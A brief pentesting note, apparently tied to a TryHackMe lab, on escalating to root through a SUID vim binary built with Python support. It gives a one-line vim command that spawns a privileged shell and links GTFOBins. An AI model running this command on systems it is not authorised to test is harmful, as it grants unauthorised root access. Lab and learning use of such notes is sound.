 # Exploiting ViM

If ViM is SUID root *and* is compiled with Python support, it can be used for privilege escalation.

```bash
vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

**Note:** Use `:py` instead if only Python 2 is available.

* [TryHackMe: Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)
* [GTFOBins: vim](https://gtfobins.github.io/gtfobins/vim/)
